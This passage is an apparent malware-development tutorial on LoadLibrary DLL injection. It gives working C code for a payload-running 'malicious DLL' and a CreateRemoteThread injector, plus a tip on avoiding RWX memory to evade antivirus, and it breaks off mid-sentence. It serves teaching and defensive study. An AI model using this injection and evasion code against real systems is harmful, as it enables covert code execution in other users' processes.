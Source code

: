 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable.

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.
 
Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```
int main() {
	DWORD pid = find_pid(TARGET);
	printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the 

